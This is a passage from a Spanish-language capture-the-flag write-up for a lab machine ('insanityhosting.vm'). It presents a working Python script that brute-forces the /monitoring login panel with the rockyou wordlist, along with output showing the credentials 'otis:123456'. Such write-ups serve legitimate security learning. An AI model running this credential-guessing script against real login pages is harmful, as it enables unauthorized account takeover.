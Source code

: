 
### Creating bruteforce script for `/monitoring`
He creado un pequeño script para hacer fuerza bruta a este panel de control ya que no he encontrado nada, ni tampoco he visto que el panel de inicio de sesión sea vulnerable a SQL Injection.

El script es el siguiente.
```python
#!/usr/bin/python3
import requests

LOGIN_PAGE_LENGTH = 4848
USERNAME = "otis"
PASSWORD_DICTIONARY = "/usr/share/wordlists/rockyou.txt"
LOGIN_ENDPOINT = "http://insanityhosting.vm/monitoring/index.php"

def brute():
    with open(PASSWORD_DICTIONARY, "r", encoding="latin-1") as file:
        for line in file:
            pwd = line.strip()
            r = requests.post(LOGIN_ENDPOINT, data={"username": USERNAME, "password": pwd})
            if LOGIN_PAGE_LENGTH != len(r.text):
                print(f"[+] {USERNAME}:{pwd}")
if __name__ == "__main__":
    brute()
```

Y vemos unas credenciales válidas.
```console
python3 brute.py
[+] otis:123456
```

Podemos iniciar sesión y vemos lo siguiente.
![Write-up Image](images/Screenshot_6.png)
